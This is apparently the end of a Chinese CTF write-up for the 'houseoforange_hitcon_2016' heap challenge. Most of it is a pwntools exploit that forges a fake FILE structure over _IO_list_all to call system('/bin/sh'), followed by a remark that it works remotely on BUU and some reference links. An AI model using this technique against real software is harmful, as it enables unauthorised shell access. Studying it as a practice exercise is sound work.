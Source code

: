 	payload = 'a' * 0x400 + p64(0) + p64(0x21) + p32(2) + p32(1) + p64(0)
	fake_file = '/bin/sh\x00'+p64(0x61)#to small bin
	fake_file += p64(0)+p64(io_list_all-0x10)
	fake_file += p64(0) + p64(1)#_IO_write_base < _IO_write_ptr
	fake_file = fake_file.ljust(0xc0,'\x00')
	fake_file += p64(0) * 3
	fake_file += p64(heap_base+0x5E8) #vtable ptr
	fake_file += p64(0) * 2
	fake_file += p64(system)
	payload += fake_file
	edit(len(payload), payload)
	#dbg()
	 
	ru("Your choice : ")
	sl('1')
	
	itr()
可能因为本地环境没配好，打不通，在buu上远程可以打通
![在这里插入图片描述](https://img-blog.csdnimg.cn/a54c5f2bc33e4c2f8519058f1e79b38d.png)
>参考文章
>[houseoforange_hitcon_2016](https://www.cnblogs.com/LynneHuan/p/14696780.html)
>[houseoforange_hitcon_2016](https://blog.csdn.net/weixin_44145820/article/details/105270036)

